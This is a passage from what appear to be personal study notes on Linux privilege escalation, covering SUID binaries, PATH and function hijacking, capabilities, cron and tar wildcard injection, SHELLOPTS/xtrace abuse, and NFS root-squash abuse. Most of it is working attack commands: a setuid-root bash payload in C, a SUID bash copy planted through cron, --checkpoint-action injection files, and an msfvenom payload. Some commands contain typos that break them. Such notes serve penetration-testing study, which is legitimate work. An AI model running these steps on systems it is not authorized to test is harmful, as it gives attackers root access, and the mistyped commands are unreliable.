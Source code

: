 10. Escalation via Binary Symlinks 

    - nnginx to root using linux exploit suggester [CVE-2016-1247]
    - requires suid on sudo 
    - `find / -type f -perm -04000 -ls 2>/dev/null`

11. Environmental Variables (path replacement) 
    - `env`
    - `find / -type f -perm -04000 -ls 2>/dev/null`
    - find something running suid run strings to see if something is being run a kin to `service apache2 start`
    - Make a malicious payload. 
    - `echo int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
    - compile
    - `gcc /tmp/service.c -o /tmp/service`
    - modify path
    - `export PATH=/tmp:$PATH`
    - Another Example if the absolute path is used. 
    - Create malicious function 
    - `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
    - export function
    - `export -f /usr/sbin/service`

12. Capabilities 
    - like suid but modular and limited. 
    - Look for capabilities.
    - `getcap -r / 2>/dev/null`

13. Cron Jobs 
    - `cat /etc/crontab` list cron jobs 
    - look to see if an explicit path is used, if it is just a file name look at the path variable for crontab. Replace with malicious file `echo 'cp /bin/bash /tmp; chmod +s /tmp/bash' > filename.sh` then `chmode +x filename.sh`
    - payloads all the things (scheduled tasks)
    - `systemctl list-timers --all`
    - If a path is using wildcards with tar as target you can manipulate it. 
    - `echo 'cp /bin/bash /tmp; chmod +s /tmp/bash' > filename.sh` then `chmode +x filename.sh` 
    - `touch /home/usr/--checkpoint=1`
    - `touch /home/user/--checkpoint-action=exec=sh\runme.sh`
    - Look for overwritable files that are executing as root 

14. SHELLOPTS and xtrace 
    - bash has a debugging mode where it can run commands 
    - `env -i SHELLOPTS=xtrace PS$='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

15. NFS 
    - Available shares are stored in `/etc/exports` 
    - `showmount -e <target>`
    - `nmap -sV -script=nfs-showmount <target>`
    - `mount -o rw,vers=2 <target>:<share> <local_dir>` 
    - Mount and upload a file if root is not squashed. 
    - `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
        - `chmod +xs /tmp/nfs/shell/elf`
